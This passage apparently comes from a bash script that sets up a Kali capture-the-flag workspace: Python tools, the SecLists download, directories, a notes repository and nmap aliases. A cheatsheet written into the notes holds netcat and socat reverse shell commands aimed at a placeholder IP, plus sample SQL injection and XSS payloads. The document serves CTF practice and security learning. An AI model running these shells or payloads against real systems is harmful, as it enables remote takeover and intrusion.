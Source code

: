 ````

# 2.8 Python Environment
log "Setting up Python virtual environment"
python3 -m venv "$CTF_DIR/venv"
check_error "Virtual environment creation"
source "$CTF_DIR/venv/bin/activate"
pip install --upgrade pip
pip install pwntools requests flask r2pipe pillow
check_error "Python packages installation"
deactivate

# 2.9 Additional Downloads
log "Downloading SecLists"
git clone https://github.com/danielmiessler/SecLists.git "$TOOLS_DIR/SecLists" || { log "${RED}Error: SecLists clone failed${NC}"; exit 1; }

# 3. Directory Structure
log "Creating CTF directory structure"
mkdir -p "$CTF_DIR"/{tools,notes,binaries,web,reversing,pwn,crypto,forensics,writeups}
check_error "Directory creation"

# Initialize Git for notes
log "Initializing Git for notes"
if [ ! -d "$CTF_DIR/notes/.git" ]; then
    cd "$CTF_DIR/notes" || check_error "Change to notes directory"
    git init
    touch notes.md cheatsheet.md
    cat <<EOL > cheatsheet.md
# CTF Cheatsheet

## Reverse Shells
- Netcat: \`nc -e /bin/bash 10.10.10.10 4444\`
- Socat: \`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444\`

## Web Payloads
- SQL Injection: \`' OR 1=1 --\`
- XSS: \`<script>alert('XSS')</script>\`

## Common Commands
- Nmap: \`nmap -sC -sV -Pn <target>\`
- Gobuster: \`gobuster dir -u <url> -w ~/tools/SecLists/Discovery/Web-Content/common.txt\`
EOL
    git add .
    git commit -m "Initial CTF notes"
    check_error "Git initialization"
else
    log "${YELLOW}Warning: Git repository already exists in notes directory. Skipping initialization.${NC}"
fi

# 4. Aliases and Bash Settings
log "Configuring bash aliases"
cat <<EOL >> "/home/$KALI_USER/.bashrc"
# CTF Aliases
alias ..='cd ..'
alias ...='cd ../..'
alias c='clear'
alias ll='ls -lah --color=auto'
alias myip="ip a | grep inet"
alias ports="netstat -tulanp"
alias nmapquick="nmap -sC -sV -Pn"
alias nmapfull="nmap -sC -sV -p- -T4"
alias nmapudp="nmap -sU -Pn"
````